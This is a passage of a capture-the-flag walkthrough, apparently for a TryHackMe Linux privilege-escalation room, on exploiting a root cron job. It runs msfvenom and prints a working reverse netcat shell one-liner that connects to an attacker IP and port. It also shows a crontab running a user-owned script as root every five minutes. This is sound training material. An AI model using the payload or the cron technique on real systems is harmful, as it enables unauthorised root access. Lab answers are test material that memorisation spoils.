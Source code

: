 ```
user8@polobox:~$ su - user4
Password: 
Welcome to Linux Lite 4.4 user4
 
Monday 19 October 2020, 14:23:33
Memory Usage: 335/1991MB (16.83%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user4@polobox:~$
```

`No answer needed`

2. Now, on our host machine- let's create a payload for our cron exploit using msfvenom. 

`No answer needed`

3. What is the flag to specify a payload in msfvenom?

`-p`

4. Create a payload using: "`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`"

```
kali@kali:~/CTFs/tryhackme/Common Linux Privesc$ msfvenom -p cmd/unix/reverse_netcat lhost=10.8.106.222 lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 94 bytes
mkfifo /tmp/mrimb; nc 10.8.106.222 8888 0</tmp/mrimb | /bin/sh >/tmp/mrimb 2>&1; rm /tmp/mrimb
```

`No answer needed`

5. What directory is the "autoscript.sh" under?

```
user4@polobox:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
